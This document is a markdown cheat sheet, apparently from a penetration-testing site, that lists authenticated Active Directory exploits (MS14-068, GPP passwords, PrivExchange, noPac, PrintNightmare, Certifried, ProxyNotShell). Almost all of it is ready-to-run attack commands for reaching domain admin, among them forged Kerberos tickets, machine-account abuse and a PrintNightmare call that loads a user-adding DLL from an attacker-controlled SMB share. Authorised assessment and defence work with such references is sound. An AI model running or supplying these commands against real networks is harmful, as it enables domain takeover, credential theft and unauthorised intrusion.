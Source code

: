 ```yaml
---
title: "Know vulnerabilities authenticated"
description: "Know vulnerabilities authenticated techniques and commands for Active Directory security assessment."
---
```

# Know vulnerabilities authenticated
## MS14-068 *PTT*{: .highlight} *Domain admin || Admin*{: .highlight}
- `findSMB2UPTime.py <ip>`
  - `ms14-068.py -u <user>@<domain> -p <password> -s <user_sid> -d <dc_fqdn>`
  - `msf> use auxiliary/admin/kerberos/ms14_068_kerberos_checksum`
  - `goldenPac.py -dc-ip <dc_ip> <domain>/<user>:<password>@target`

## GPP MS14-025 *Domain admin*{: .highlight}
- `msf> use auxiliary/scanner/smb/smb_enum_gpp`
- `findstr /S /I cpassword \\<domain_fqdn>\sysvol\<domain_fqdn>\policies\*.xml`
- `Get-GPPPassword.py <domain>/<user>:<password>@<dc_fqdn>`

## PrivExchange (CVE-2019-0724, CVE-2019-0686) *HTTP Coerce*{: .highlight} *Domain admin || Admin*{: .highlight}
- `privexchange.py -ah <attacker_ip> <exchange_host> -u <user> -d <domain> -p <password>`

## noPac (CVE-2021-42287, CVE-2021-42278) *PTT*{: .highlight} *DCSYNC*{: .highlight} *Domain admin*{: .highlight}
- `nxc smb <ip> -u 'user' -p 'pass' -M nopac #scan`
- `noPac.exe -domain <domain> -user <user> -pass <password> /dc <dc_fqdn> /mAccount <machine_account> /mPassword <machine_password> /service cifs /ptt`

## PrintNightmare (CVE-2021-1675, CVE-2021-34527) *Admin*{: .highlight}
- `nxc smb <ip> -u 'user' -p 'pass' -M printnightmare #scan`
- `printnightmare.py -dll '\\<attacker_ip>\smb\add_user.dll' '<user>:<password>@<ip>'`

## Certifried (CVE-2022-26923) *PTT*{: .highlight} *DCSYNC*{: .highlight} *Domain admin*{: .highlight}
- Create account
  - `certipy account create -u <user>@<domain> -p '<password>' -user 'certifriedpc' -pass 'certifriedpass' -dns '<fqdn_dc>'`
- Request
  - `certipy req -u 'certifriedpc$'@<domain> -p 'certifriedpass' -target <ca_fqdn> -ca <ca_name> -template Machine`
- Authentication
  - `certipy auth -pfx <pfx_file> -username '<dc>$' -domain <domain> -dc-ip <dc_ip>`

## ProxyNotShell (CVE-2022-41040, CVE-2022-41082) *Admin*{: .highlight}
- `poc_aug3.py <host> <username> <password> <command>`